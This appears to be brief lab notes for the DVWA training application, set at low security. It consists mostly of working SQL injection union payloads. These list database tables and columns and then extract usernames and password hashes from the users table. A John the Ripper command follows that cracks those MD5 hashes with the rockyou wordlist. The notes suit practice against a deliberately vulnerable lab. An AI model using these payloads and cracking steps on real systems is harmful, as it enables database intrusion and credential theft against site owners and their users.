 # LOW
`%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #`
`%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = 'users' #`
`%' or '0'='0' union select user, password from dvwa.users #`

https://www.tunnelsup.com/hash-analyzer/

`john --wordlist=rockyou.txt --format=Raw-MD5 hashes.txt`

